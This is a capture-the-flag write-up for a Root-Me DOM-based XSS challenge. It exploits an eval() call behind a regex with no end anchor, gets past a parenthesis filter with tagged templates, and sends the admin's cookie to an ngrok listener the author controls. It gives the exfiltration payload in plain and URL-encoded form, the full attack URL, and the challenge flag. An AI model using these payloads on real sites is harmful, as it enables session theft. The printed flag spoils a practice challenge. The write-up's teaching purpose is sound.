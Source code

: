# XSS DOM Based - Eval

**Point**: 40 Points 

**Description**: Steal the admin’s session cookie.

## Solution:

There's a simple calculator

<p align="center"><img width="350px" height="150px" src="https://user-images.githubusercontent.com/48288606/159746731-8fe14ffd-1aff-4a52-9e5f-db4a8b2f288d.png"/></p>

Try to enter `1 + 1`:

<p align="center"><img width="350px" height="200px" src="https://user-images.githubusercontent.com/48288606/159750532-1aff11d7-4eec-458e-861c-48d9b9bad165.png" /></p>

Try enter arbitrary format `khangtictoc`:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159748134-7a189c79-7f45-4537-aa3b-8219b14d09a9.png" /></p>

Examine the source code a little bit. 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159748670-fc8b1b6f-217e-473b-a8cd-85dfb723f8eb.png" /></p>

The program use directly the `eval` function. This is very dangerous, `eval()` can execute any javascript code, even from string with code format.

Try making XSS happen. This spend me a lots of stupid time, but i'm sure you all be aware of **vulnerable regex** in this case `/^\d+[\+|\-|\*|\/]\d+/`. With symbol `^`, this only check the if our first part of our string has format `number + number`. The place `+` can be any of  <br>`+ - * /`. A secure regex should contain `$` at the end to stabilize the input data. [Play with Regex](https://regexr.com/)

With this, we can inject our XSS code at the end of input. For example, try to enter this: `1 + 1, alert(1)`

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159750329-1f370e11-35e6-40db-aa39-b2bf40ab8e73.png" /></p>

Well, they've filtered character `()`. Try to use **Tagged Templates** [Research more here!](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals#tagged_templates), use this payload ``1 + 1, alert`1` ``

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159106743-5170454c-cd7f-4d88-a4d2-9b70a7945a44.png" /></p>

Yes!! Piece of cake. I just try to `alert(1)` to prove this. Actually, for final payload, we don't care if server filters `()` or not.
 
Now this proves XSS can be in action. Now we have to get the **cookie** from the victim, we ought to delivery all collected cookie from victim (administrator) to a specific server that we take control. Payload will look like this:

```text
1+1, document.location="{your_server_link_site}?cookie=" + document.cookie
```

Let's take action step-by-step:

1. Run PHP server with **localhost** and optional **port** without any content: `php -S localhost:4444 `

2. Public our server by tunneling. I use **ngrok** to serve this purpose:
   - Connect to ngrok with your account token: `ngrok authtoken {your_account_token}`
   - Tunneling our local site to public network with port specified above: `ngrok http 4444`
   - Get the public link we get from ngrok and create with payload above.
   ![image](https://user-images.githubusercontent.com/48288606/159753459-1bd85e80-cda4-41b1-8235-511514bee716.png)

3. Send our payload to cookie **status** and reload page:
```text
1+1, document.location="http://6b48-123-21-33-87.ngrok.io?cookie=" + document.cookie
``` 

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/159753758-510f5e86-a0d2-4ad6-b296-c31a1f4c6eba.png" /> </p>

Our payload is working.

There's one more problem we have to deal with. When we submit, the page quickly directs to our site so we can't have enough time to "collect" the URL. We should decode our payload ([Use this!](https://www.urlencoder.org/) and set **number** param with decoded value for creating our own links.

Encoded payload:

```text
1%2B1%2C%20document.location%3D%22http%3A%2F%2F6b48-123-21-33-87.ngrok.io%3Fcookie%3D%22%20%2B%20document.cookie
```
Assign it into **calculation** parameter in URL query. We have full payload:

```text
http://challenge01.root-me.org/web-client/ch34/?calculation=1%2B1%2C%20document.location%3D%22http%3A%2F%2F6b48-123-21-33-87.ngrok.io%3Fcookie%3D%22%20%2B%20document.cookie
```
**NOTE: You can check this payload by put it directly to URL search bar**

Move to "Contact" section. Send our payload to server. Wait for a while, check whether our server has received cookie or not.

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/159755071-b7dd6131-1b40-4e50-8650-16a1e476ad8d.png" /> </p>

FLag: **rootme{Eval_Is_DangER0us}**

